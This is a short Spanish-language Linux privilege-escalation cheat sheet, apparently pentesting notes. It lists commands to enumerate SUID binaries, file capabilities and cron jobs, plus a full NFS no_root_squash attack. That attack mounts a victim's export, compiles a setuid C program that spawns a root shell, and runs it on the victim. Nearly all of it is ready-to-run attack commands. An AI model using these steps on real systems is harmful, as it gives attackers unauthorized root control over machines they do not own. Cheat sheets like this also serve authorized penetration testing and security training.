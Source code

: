 #### SUID[](#suid)

find / -perm -u=s -type f 2>/dev/null

#### Capabilities[](#capabilities)

getcap -r / 2>/dev/null

#### 

NFS Root Squashing[](#nfs-root-squashing)

cat /etc/exports

#Si una carpeta tiene la flag “no_root_squash” se puede montar con NFS y los archivos serán creados como root (id 0)

#Desde la máquina atacante

showmount -e <IP_VÍCTIMA>

mkdir /tmp/mountme

mount -o rw,vers=2 <IP_VÍCTIMA>:/tmp /tmp/mountme

echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }’ > /tmp/mountme/x.c

gcc /tmp/mountme/x.c -o /tmp/mountme/x

chmod +s /tmp/mountme/x

#Desde la máquina víctima

./x

#### 

Tareas programadas[](#tareas-programadas)

cat /etc/crontab
